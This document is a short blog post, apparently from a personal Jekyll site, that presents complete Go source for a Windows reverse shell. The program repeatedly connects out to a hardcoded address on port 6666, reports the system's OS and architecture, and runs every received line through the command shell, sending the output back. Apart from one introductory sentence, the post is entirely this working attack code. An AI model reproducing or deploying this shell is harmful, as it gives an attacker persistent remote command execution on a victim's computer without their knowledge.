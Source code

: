 ```yaml
---
layout: post
title: "A Simple Reverse Shell In Golang 🐚"
date: 2019-07-16 12:00:01 -0700
categories: go golang reverse shell infosec
published: true
---
```


This article assumes programming proficiency in `Golang` and familiarity with network programming concepts such as TCP/IP & sockets.

## **Shell Shoveling In Golang**

This is a simple example of a reverse shell I wrote in the programming language `Go` for the windows operating system.

```go

package main

import (
    "bufio"
    "fmt"
    "net"
    "os"
    "os/exec"
    "runtime"
    "strings"
    "time"
)

func main() {
    for {
        conn, err := net.Dial("tcp", "192.168.0.9:6666")
        if err != nil {
            time.Sleep(10 * time.Second)
            continue
        }
        fmt.Fprintf(conn, "\nOS: %s\nArchitecture: %s\n", runtime.GOOS, runtime.GOARCH)
        shell := os.Getenv("ComSpec")
        fmt.Fprintf(conn, "shell: %s\n\n", shell)

        scanner := bufio.NewScanner(conn)
        for scanner.Scan() {
            data := scanner.Text()
            out, _ := exec.Command(
                shell,
                append(
                    []string{"/C"},
                    // strings.Split(strings.TrimSpace(data), " ")...,
                    strings.TrimSpace(data),
                )...,
            ).CombinedOutput()

            fmt.Fprintf(conn, "\n%s\n", string(out))
        }

        if err := scanner.Err(); err != nil {
            fmt.Fprintf(conn, "\nError: %s ...\n", err)
        }

        time.Sleep(5 * time.Second)
    }
}

```